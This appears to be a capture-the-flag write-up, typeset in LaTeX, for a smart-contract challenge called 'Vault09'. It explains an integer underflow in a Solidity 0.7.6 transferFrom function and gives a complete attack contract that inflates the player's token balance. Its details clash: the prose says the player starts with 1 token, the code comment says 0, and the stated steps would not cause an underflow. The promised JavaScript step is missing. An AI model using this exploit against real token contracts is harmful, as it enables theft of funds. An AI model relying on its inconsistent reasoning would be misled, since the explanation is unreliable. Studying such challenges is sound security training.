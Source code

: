 \documentclass[12pt]{article}
\begin{document}
\subsection*{Vault09: Less Is More}

To breach \texttt{Vault09}, you need to exploit an integer underflow vulnerability in the \texttt{transferFrom} function. The key observation is that the contract checks if the message sender has enough tokens, but not whether the \texttt{from} address has enough tokens. This allows you to cause an underflow in the \texttt{tokenBalances[from] -= amount} operation.

First, deploy an attack contract that will interact with the vulnerable vault. Then, from your account (which starts with 1 token), approve the attack contract to spend tokens on your behalf. Next, have the attack contract call \texttt{transferFrom} to transfer more tokens than you actually have, causing an integer underflow in your token balance.

\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
// SPDX-License-Identifier: MIT
pragma solidity 0.7.6;

interface IVault09 {
    function transferFrom(address from, address to, uint256 amount) external;
}

contract Vault09Attack {
    // Reference to the vulnerable vault contract
    IVault09 public vault;
    // Address of the player who deployed this contract
    address immutable playerAddress;
    
    constructor(address _vaultAddress) {
        vault = IVault09(_vaultAddress);
        playerAddress = msg.sender;
    }
    
    /**
     * @notice Performs the attack by triggering an underflow in the vault contract
     * @dev This exploit works because Solidity 0.7.6 doesn't have default overflow/underflow protection
     */
    function attack() external {      
        // Transfer 1 token from player that has 0 tokens 
        // The player amount will underflow and become 2**256 - 1
        vault.transferFrom(playerAddress, address(this), 1);
    }
}
\end{lstlisting}
\end{minipage}

\noindent
Complete the attack with the following JavaScript code:
\end{document}
